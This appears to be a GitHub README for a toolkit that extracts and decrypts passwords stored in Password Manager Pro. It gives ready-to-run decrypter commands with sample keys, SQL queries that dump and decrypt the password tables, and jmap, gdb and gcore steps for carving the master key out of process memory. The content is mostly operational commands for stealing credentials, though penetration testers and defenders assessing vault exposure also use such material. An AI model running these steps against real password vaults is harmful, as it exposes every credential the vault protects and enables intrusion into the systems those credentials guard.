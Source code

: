 # PMP-tool

Some tools for decrypting/dumping Password Manager Pro passwords  

Dependencies:
 - python3
 - pycryptodome
 - pgpy (Only if you wish to decrypt database encrypted data)


## Decrypter

### Examples

Decrypt passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= --file example/decrypted_passwords.txt
```

Decrypt database-encrypted passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --file example/passwords.txt --encrypted
```

Decrypt a single database-encrypted password:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --password wwwECQECsR/EjgtjwlTSUQFN8qQRmKRB0manYvU++KDTurezkOX5QwcrZEMdHLdTbAm1M2qHTUmB8LE5MZ5wDxtpzBR73p02ifya3QY5nVL/0y05/CSyEl7E+BoxrUn8+g== --encrypted
```

## Dumper

### Installation

```bash
sudo apt-get -y install libpq-dev
pip3 install -r requirements.txt
```

## PostgreSQL

You can use this commands (or their MySQL equivalent) to gain some info manually

To get encrypted `DB_ENCRYPTION_KEY` (you can than decrypt it with decrypter):

```SQL
select notesdescription from Ptrx_NotesInfo where noteid = 1;
```

To retrieve encrypted passwords (no database decryption):

```SQL
select encode(password, 'base64') from ptrx_passbasedauthen;
```


To retrieve encrypted passwords:

```SQL
select decryptschar(password, <DB_ENCRYPTION_KEY>) from ptrx_passbasedauthen;
```

OR

```SQL
select pgp_sym_decrypt(password, <DB_ENCRYPTION_KEY>, 's2k-mode=1, cipher-algo=aes256') from ptrx_passbasedauthen;
```

## Memory Dump

If you can execute commands on the host, you can read the PMP key from a file `PMP/conf/pmp_key.key`. However, if the file is removed (according to the deploy instructions), you can try dumping it from memory

**0. Get WrapperSimpleApp PID**

```bash
jps | grep WrapperSimpleApp # Or find it yourself
```

**1. JMAP**

If the host have jdk installed you can simply use Jmap

```bash
jmap -dump:file=dump.dump <process-id>
```

Then analyze the dump with any java heap analyzer tool. For example - [Eclipse Memory Analyzer](https://www.eclipse.org/mat/).  
Load the dump into analyzer (`File -> load heap dump`) and follow `java.net.URLClassLoader -> list objects -> with outgoing references -> classes -> elementData -> <Find the one with class com.adventnet.passtrix.ed.PMPEncryptDecryptImpl> -> pmp32BitKey`

**2. GDB**

**Requires root privileges**

```bash
gdb --batch --pid <process-id> -ex "dump memory mem.dump 0xf5580000 0x100000000" && grep -a -m2 -E "[A-Za-z0-9\+/]{43}=" mem.dump
```

**3. GCORE**

**Requires root privileges**  
Works half of the time `-_0_0_-`

```bash
gcore -a <process-id>
grep -a -E "[A-Za-z0-9\+/]{43}=" core.*
```

